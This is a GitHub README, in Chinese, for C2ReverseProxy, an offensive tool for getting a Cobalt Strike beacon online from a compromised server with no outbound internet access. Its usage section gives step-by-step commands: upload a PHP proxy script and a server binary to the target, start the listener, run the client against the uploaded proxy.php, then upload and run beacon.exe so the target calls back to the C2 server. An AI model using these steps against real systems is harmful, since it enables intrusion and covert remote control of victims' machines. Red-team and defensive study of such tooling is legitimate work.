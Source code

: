 # C2ReverseProxy

ReverseProxy C2 - 在不出网的情况下使cs上线

# Description

在渗透过程中遇到不出网的环境时，可使用该工具建立反向代理通道，使CobaltStrike生成的beacon可以回弹到CobaltStrike服务器。

# Install

```
git clone https://github.com/Daybr4ak/DReverseProxy.git
```

# Usage

```markdown
该文件分为3个部分：
1、C2script  
2、C2ReverseClint
3、C2ReverseServer

使用步骤：
1、将C2script目录下的对应文件，如proxy.php 以及C2ReverseServer上传到目标服务器。
2、使用C2ReverseServer建立监听端口：
./C2ReverseServer 8888 (默认为8000)
3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。
4、本地或C2服务器上运行C2ReverseClint工具
./C2ReverseClint --addr C2IP:C2ListenerPort --target http://example.com/proxy.php (传送到目标服务器上的proxy.php路径)
5、使用CobaltStrike建立本地Listener(127.0.0.1 8888)端口与C2ReverseServer建立的端口对应
6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行
7、可以看到CobaltStrike上线。
```
# Bug

一个server端口只支持一个cs上线
文件上传会导致server阻塞

如果阻塞重启server端就好。。。。  后期准备修改代码重新实现


